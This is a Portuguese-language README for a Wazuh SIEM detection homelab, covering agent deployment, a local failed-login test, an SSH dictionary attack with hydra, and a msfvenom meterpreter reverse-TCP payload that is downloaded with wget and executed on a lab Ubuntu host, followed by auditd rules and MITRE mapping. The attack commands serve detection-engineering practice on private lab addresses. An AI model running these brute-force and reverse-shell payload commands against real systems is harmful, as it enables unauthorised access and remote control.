



# Homelab de Detecção — Implementação e Análise com Wazuh SIEM

## Descrição

Homelab de segurança para prática de engenharia de detecção, coleta de telemetria de endpoints e triagem de alertas em ambiente controlado, usando Wazuh como SIEM.

O laboratório está dividido em duas fases:

- **Fase 1 (concluída):** centralização de logs, auditoria de autenticação e baseline de telemetria em endpoint Windows.
- **Fase 2 (em andamento):** simulação de ataques de rede com Kali Linux e validação de regras de correlação.

## Arquitetura

| Componente | Função | SO / Ferramenta | IP |
|---|---|---|---|
| SIEM Manager | Servidor central (Indexer, Server, Dashboard) | Ubuntu Server + Wazuh 4.9.2 | 192.168.1.23 |
| Endpoint monitorado | Alvo de auditoria e coleta de eventos | Windows 11 Home | 192.168.1.18 |
| Host de ataque (Fase 2) | Simulação de agente de ameaça | Kali Linux | a definir |

Ambiente virtualizado em Oracle VirtualBox, rede em modo Bridge para permitir comunicação direta entre VM e host físico.



---

## Fase 1 — Centralização de logs e auditoria local

### 1. Setup do servidor

Deploy do Wazuh (Indexer, Server e Dashboard) em instalação single-node, para fins de laboratório.

### 2. Deploy do agente no endpoint Windows

Instalação e registro do agente via PowerShell:

```powershell
# Download e instalação silenciosa do agente, apontando para o manager
Invoke-WebRequest -Uri https://packages.wazuh.com/4.x/windows/wazuh-agent-4.9.2-1.msi -OutFile $env:tmp\wazuh-agent; msiexec.exe /i $env:tmp\wazuh-agent /q WAZUH_MANAGER='192.168.1.23' WAZUH_AGENT_GROUP='default' WAZUH_AGENT_NAME='endpoint-01'

NET START WazuhSvc
```

**Validação:** agente registrado e ativo no manager, versão 4.9.2, comunicando com o node Wazuh.


*Painel de Agentes confirmando status `active`, SO (Windows 11 Home) e versão do agente instalada.*

### 2.1 Configuração do agente (`ossec.conf`, sanitizado)

A configuração parte do template padrão distribuído pelo Wazuh para agentes Windows. Os campos efetivamente personalizados para este ambiente foram o endereço do manager, o nome do agente e o enrollment automático; os demais módulos (FIM, SCA, syscollector) permanecem nos valores recomendados por padrão.

```xml
<ossec_config>

  <client>
    <server>
      <address>192.168.1.30</address>
      <port>1514</port>
      <protocol>tcp</protocol>
    </server>
    <config-profile>windows, windows10</config-profile>
    <crypto_method>aes</crypto_method>
    <notify_time>10</notify_time>
    <time-reconnect>60</time-reconnect>
    <auto_restart>yes</auto_restart>
    <enrollment>
      <enabled>yes</enabled>
      <agent_name>endpoint-01</agent_name>
      <groups>default</groups>
    </enrollment>
  </client>

  <!-- Coleta de eventos de segurança do Windows, com filtro de ruído
       recomendado pela documentação oficial do Wazuh -->
  <localfile>
    <location>Security</location>
    <log_format>eventchannel</log_format>
    <query>Event/System[EventID != 5145 and EventID != 5156 and EventID != 5447 and
      EventID != 4656 and EventID != 4658 and EventID != 4663 and EventID != 4660 and
      EventID != 4670 and EventID != 4690 and EventID != 4703 and EventID != 4907 and
      EventID != 5152 and EventID != 5157]</query>
  </localfile>

  <!-- File Integrity Monitoring — habilitado, valores padrão -->
  <syscheck>
    <disabled>no</disabled>
    <frequency>43200</frequency>
    ...
  </syscheck>

  <!-- Security Configuration Assessment — habilitado, scan a cada 12h -->
  <sca>
    <enabled>yes</enabled>
    <scan_on_start>yes</scan_on_start>
    <interval>12h</interval>
  </sca>

</ossec_config>
```

**O que foi omitido/sanitizado:** blocos completos de `syscheck` (listas extensas de diretórios e chaves de registro monitoradas, padrão do template) e os módulos `cis-cat` e `osquery`, que permanecem desabilitados (`disabled: yes`) e não foram utilizados neste laboratório. O arquivo completo não traz credenciais nem segredos — é composto majoritariamente por caminhos e parâmetros públicos do próprio produto.

### 3. Cenário de teste: falhas de autenticação local

**Ação executada:** bloqueio de sessão local (Windows+L), seguido de 4 tentativas de login com senha incorreta e 1 tentativa bem-sucedida.

**Objetivo do teste:** validar que o pipeline de coleta (Agent → Manager → Indexer → Dashboard) captura e classifica corretamente eventos de autenticação nativos do Windows.

**Resultado:** 4 eventos de falha (Event ID 4625) capturados e classificados pela regra Wazuh 60122, nível 5.


*Dashboard filtrado por `data.win.system.eventID: 4625`, mostrando o total de 4 alertas de falha de autenticação no período, sem falsos-negativos e sem eventos de sucesso indevidamente classificados como falha.*

### 4. Análise técnica do alerta (dados brutos)

Detalhamento do evento indexado, direto do Discover do Wazuh:




**Indicadores extraídos:**
- `logonType: 2` — logon interativo, executado localmente na máquina (não é acesso remoto).
- `eventID: 4625` / `status: 0xc000006d` — falha de autenticação por senha ou usuário incorretos.
- `logonProcessName: User32`, `processName: svchost.exe` — consistente com tela de logon padrão do Windows, sem indício de ferramenta externa de ataque.
- `rule.level: 5` — severidade baixa, compatível com um evento isolado e não crítico.

### 5. Análise do analista

Este é um evento de baixa severidade e alta previsibilidade: falha de autenticação local seguida de sucesso, mesmo usuário, mesmo host, curto intervalo de tempo. Classificado como **falso-positivo / atividade esperada** — consistente com erro de digitação do próprio usuário.

Se o volume de falhas fosse maior, viesse de IP externo, ou envolvesse `logonType: 3` (logon de rede) ou `logonType: 10` (RDP), a classificação mudaria para investigação ativa de possível brute-force (ver Fase 2). Não há ação de resposta necessária neste caso — o cenário serve para validar que o canal de telemetria funciona corretamente antes de introduzir cenários mais complexos.

### 6. Observação sobre o mapeamento MITRE do Wazuh

O print de detalhe do evento mostra que a própria regra 60122 do Wazuh mapeia este alerta para `rule.mitre.id: T1531` (Account Access Removal / tática Impact). Esse mapeamento é o **default do ruleset do Wazuh**, não uma classificação que eu atribuí manualmente — e, na minha avaliação, é impreciso para este cenário: T1531 descreve um adversário **removendo o acesso** de uma conta legítima (ex: trocar credenciais para bloquear a vítima), o que não é o que ocorre numa simples falha de senha digitada errada pelo próprio usuário.

Uma classificação tecnicamente mais correta para esse padrão de evento seria `T1110.001 — Brute Force: Password Guessing`, usada na tabela de mapeamento abaixo. Optei por manter e destacar essa divergência no README porque considero importante, como analista, não aceitar cegamente a rotulagem automática de uma ferramenta — o mapeamento MITRE de um SIEM é um ponto de partida para triagem, não a palavra final.

### 7. Mapeamento MITRE ATT&CK — Fase 1 (avaliação do analista)

| Tática | Técnica | Comportamento simulado | Telemetria de detecção |
|---|---|---|---|
| Credential Access | T1110.001 — Brute Force: Password Guessing | Múltiplas tentativas de senha incorreta na tela de bloqueio local | Event ID 4625, Logon Type 2, regra Wazuh 60122 |

*Nota: o evento não representa uma técnica ofensiva real (foi gerado pelo próprio operador do lab para validar o pipeline de coleta), mas o mapeamento demonstra como o mesmo padrão seria classificado caso ocorresse em um cenário real de força bruta local.*

---

## Fase 2 — Simulação de ataques de rede e detecção com Auditd (concluída)

Objetivo: sair do cenário local (Fase 1) e validar detecção de ataques originados de outro host na rede, usando um segundo endpoint Linux e um host atacante dedicado. Dois vetores foram testados: força bruta de credenciais via SSH e execução de payload malicioso monitorada via Auditd.

### 1. Preparação do endpoint Linux

Instalação manual do agente Wazuh (pacote `.deb`) e do `auditd` no endpoint Ubuntu Server (`192.168.1.21`):


*Download do pacote, instalação via `dpkg` apontando `WAZUH_MANAGER='192.168.1.30'`, registro do serviço via `systemctl` e instalação do `auditd`.*

### 2. Vetor 1 — Força bruta de credenciais via SSH (Hydra)

**Ação executada:** ataque de dicionário com `hydra`, a partir do Kali (`192.168.1.31`), contra o usuário `vboxuser` no endpoint Linux via SSH, testando 6 senhas comuns.

```bash
echo -e "123456\npassword\nadmin123\nsenha123\nAdmin@123\nvboxuser" > /tmp/passwords.txt
hydra -l vboxuser -P /tmp/passwords.txt ssh://192.168.1.21 -V -t 4
```


**Resultado do ataque:** nenhuma senha válida encontrada (`0 valid password found`) — o dicionário usado não continha a senha real da conta. Do ponto de vista ofensivo o ataque falhou, mas do ponto de vista de engenharia de detecção isso é irrelevante: o objetivo era gerar telemetria de tentativas de autenticação remota, não obter acesso.

**Detecção:** as tentativas foram capturadas pelo decoder nativo `sshd` do Wazuh, classificadas pela regra `5760` (nível 5, `sshd: authentication failed`).


*Filtro `data.srcip: "192.168.1.31"` no Discover retornando 10 eventos `sshd: authentication failed` (regra 5760) no intervalo do ataque.*

### 3. Vetor 2 — Geração e execução de payload malicioso

**Geração do payload** no Kali, via `msfvenom`:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.31 LPORT=4444 -f elf -o /tmp/payload_linux.elf
```


*Binário ELF de 250 bytes gerado com sucesso, sem encoder aplicado.*

**Entrega e execução** no endpoint Linux: servidor HTTP simples no Kali (`python3 -m http.server 8000`), download via `wget` no Ubuntu Server, permissão de execução e execução manual:

```bash
wget http://192.168.1.31:8000/payload_linux.elf -O /tmp/payload_linux.elf
chmod +x /tmp/payload_linux.elf
/tmp/payload_linux.elf
```


### 4. Engenharia de detecção — Auditd + regra customizada

Diferente da Fase 1 (onde a detecção usou regras nativas do Wazuh), este vetor exigiu configuração manual, em duas partes:

**a) Regra no Auditd** (`/etc/audit/rules.d/audit.rules`), monitorando a syscall `execve` (59) e marcando os eventos com a chave `execution_detect`.

**b) Leitura do log do Auditd pelo agente Wazuh**, adicionando o bloco `<localfile>` correspondente no `ossec.conf`:

```xml
<localfile>
  <log_format>audit</log_format>
  <location>/var/log/audit/audit.log</location>
</localfile>
```


**c) Regra customizada no Manager** (`/var/ossec/etc/rules/local_rules.xml`), elevando o evento para nível 7 e mapeando a técnica MITRE:

```xml
<rule id="100003" level="7">
  <if_group>audit</if_group>
  <field name="audit.key">execution_detect</field>
  <description>Auditd: Execution of payload binary detected</description>
  <mitre>
    <id>T1059.004</id>
  </mitre>
</rule>
```


> **Observação técnica:** o mesmo arquivo contém uma regra `100001` que replica, sem alteração, o exemplo padrão da documentação oficial do Wazuh (`if_sid 5716`, `srcip 1.1.1.1` — um IP fixo de exemplo). Como o IP nunca é adaptado para a rede real do lab, essa regra não tem efeito prático hoje; fica registrado aqui como pendência de limpeza, não como parte funcional da detecção. A regra `100002` (Sysmon) também está presente como preparação para uma futura integração com o endpoint Windows, mas ainda não foi testada.

### 5. Validação com `wazuh-logtest` antes de confiar na regra

Antes de considerar a regra funcional, o evento foi testado manualmente com o utilitário `wazuh-logtest`, para confirmar as três fases do pipeline de decodificação — pré-decoding, decoding e filtragem de regras — sem depender de gerar um evento real toda vez:


*Confirmação de que o decoder `auditd` extrai corretamente os campos (`audit.key: execution_detect`, `audit.exe: /tmp/payload_linux.elf`) e que a regra 100003 é corretamente disparada (nível 7, MITRE T1059.004, tática Execution).*

### 6. Confirmação final no dashboard


Alerta bruto indexado (JSON completo em [`evidence/12_JSON.txt`](./evidence/12_JSON.txt)):

```json
{
  "agent": { "ip": "192.168.1.21", "name": "Ubuntu-Server", "id": "002" },
  "data": {
    "audit": {
      "exe": "/tmp/payload_linux.elf",
      "key": "execution_detect",
      "command": "payload_linux.e",
      "success": "yes",
      "cwd": "/home/vboxuser"
    }
  },
  "rule": {
    "level": 7,
    "description": "Auditd: Execution of payload binary detected",
    "id": "100003",
    "mitre": { "id": ["T1059.004"], "technique": ["Unix Shell"], "tactic": ["Execution"] }
  }
}
```

**Indicadores extraídos:** `exe` e `command` confirmam o binário executado; `success: yes` confirma execução completa (não bloqueada); `cwd` confirma o diretório de trabalho do usuário `vboxuser`, consistente com o cenário de entrega manual descrito acima — sem indício de escalonamento de privilégio nesta etapa.

### 7. Análise do analista

O alerta reflete corretamente a técnica **T1204.002 (User Execution: Malicious File)** do lado ofensivo, mas a regra criada mapeia para **T1059.004 (Unix Shell)** do lado de execução — as duas técnicas são complementares, não conflitantes: T1204.002 descreve *como* o payload chegou a ser executado (ação do usuário/atacante), enquanto T1059.004 descreve *o mecanismo de execução* observado pela telemetria (syscall `execve` via shell). Optei por manter o mapeamento em T1059.004 na regra porque é isso que o Auditd de fato observa no nível de sistema; a tabela de mapeamento abaixo documenta as duas técnicas envolvidas no vetor completo.

Como próximo passo de maturidade, a regra 100003 hoje dispara para qualquer execução com a chave `execution_detect` — o que é adequado para lab, mas em produção eu adicionaria contexto adicional (ex: hash do binário, diretório de origem fora do padrão como `/tmp`) para reduzir falsos-positivos de scripts legítimos.

### 8. Mapeamento MITRE ATT&CK — Fase 2

| Tática | Técnica | Ferramenta / Ação | Detecção / Telemetria |
|---|---|---|---|
| Credential Access | T1110.002 — Brute Force: Password Cracking | `hydra` contra SSH | Event `sshd: authentication failed`, regra Wazuh 5760 (nível 5) |
| Execution | T1204.002 — User Execution: Malicious File | Download (`wget`) e execução manual do payload ELF | — |
| Execution | T1059.004 — Command and Scripting Interpreter: Unix Shell | Execução do payload via shell, capturada por syscall `execve` | Auditd (`audit.key: execution_detect`) → regra customizada Wazuh 100003 (nível 7) |

### 9. Troubleshooting — erros encontrados e soluções

| Problema | Causa | Solução |
|---|---|---|
| Campos do Auditd (`data.audit.key` etc.) não eram extraídos pelo Wazuh | `ossec.conf` configurado com `<log_format>syslog</log_format>` para o log do Auditd | Alterado para `<log_format>audit</log_format>`, formato correto para esse tipo de log |
| Erro ao reiniciar `wazuh-analysisd` ao salvar a regra customizada | ID de regra duplicado (`100002` já em uso no `local_rules.xml`) | Regra renomeada para um ID único no ambiente (`100003`) |
| Evento não aparecia no Discover mesmo após confirmado pelo `wazuh-logtest` | Divergência de minutos entre o timestamp do evento e o filtro padrão "Last 15 minutes" | Ajuste da janela de busca para "Last 1 hour" e busca direta por `data.audit.key: "execution_detect"` em vez de depender só do filtro de tempo |

---

## Como reproduzir este ambiente

1. Provisionar VM Ubuntu Server (mín. 4GB RAM) e instalar Wazuh (instalação single-node via script oficial).
2. Provisionar endpoint Windows (VM ou físico) e instalar o Wazuh Agent, apontando para o IP do manager.
3. Confirmar no dashboard que o agente está ativo e eventos de segurança estão sendo indexados.
4. Gerar os cenários de teste descritos na Fase 1 e validar a classificação dos alertas.

---

## Tecnologias utilizadas

- Wazuh SIEM 4.9.2 (Manager, Indexer, Dashboard) / Wazuh Agent 4.9.2 e 4.7.2
- Windows 11 Home — endpoint monitorado (Fase 1)
- Ubuntu Server + Auditd — endpoint monitorado (Fase 2)
- Kali Linux — host de simulação de ataque: `hydra`, `msfvenom` (Fase 2)
- Oracle VirtualBox — virtualização, rede em modo Bridge
- PowerShell / Bash — automação de deploy dos agentes
- `wazuh-logtest` — validação de regras e decoders antes de depender de eventos reais
